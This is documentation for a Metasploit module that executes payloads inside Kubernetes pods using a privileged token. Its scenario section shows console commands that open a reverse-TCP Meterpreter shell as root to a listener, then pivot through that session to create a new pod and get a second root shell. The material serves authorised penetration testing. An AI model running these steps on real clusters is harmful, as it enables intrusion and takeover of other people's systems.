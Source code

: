 ## Vulnerable Application

### Description

Execute a payload within a Kubernetes pod.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/kubernetes/exec`
3. Set the required options
4. Do: `run`
5. You should get a shell.

## Options

### SESSION
An optional session to use for configuration. When specified, the values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT`
will be gathered from the session host. This requires that the session be on an existing Kubernetes pod. The necessary
values may not always be present.

Setting this option will also automatically route connections through the specified session.

### TOKEN
The JWT token. The token with the necessary privileges to access the exec endpoint within a running pod and optionally
create a new pod.

### POD
The pod name to execute in. When not specified, a new pod will be created with an entrypoint that allows it to run
forever. After creation, the pod will be used to execute the payload. **The created pod is not automatically cleaned
up.** A note containing the created pod's information will be added to the database when it is connected.

### NAMESPACE
The Kubernetes namespace that the `TOKEN` has permissions for and that `POD` either exists in or should be created in.

### SHELL
The shell to use for execution. `bash` is likely preferred from a usability perspective, but is not present as often as
`sh` is.

### TARGET
#### Interactive WebSocket
Communicate directly with the pod using the Kubernetes WebSocket API. This is the most similar option to the `kubectl
exec --stdin --tty` command. No Metasploit payload is transferred to the target.

### Unix Command
Run the specified command payload and read the output. Custom commands can be run with the `cmd/unix/generic` payload.

### Linux Dropper
Use a command stager to transfer a Metasploit payload to the target and execute it. This will result in the payload
being written to disk and will require potentially non-standard binaries to be present on the remote system, depending
on the selected `CMDSTAGER::FLAVOR` option.

### Python
Run a Python payload on the remote host. This technique will automatically find and use either a `python`, `python3`, or
`python2` binary on the remote system to use for execution.

## Scenarios

### Kubernetes v1.22.1
In this scenario, Metasploit has direct access to the Kubernetes API. A known token is used to execute a Python payload
within the `thinkphp-67f7c88cc9-tgpfh` pod.

```
msf6 > use exploit/multi/kubernetes/exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python 
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```

Next, the compromised session is used to access the internal Kubernetes endpoint, create a new pod and open a shell
directly via a WebSocket.

```
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```
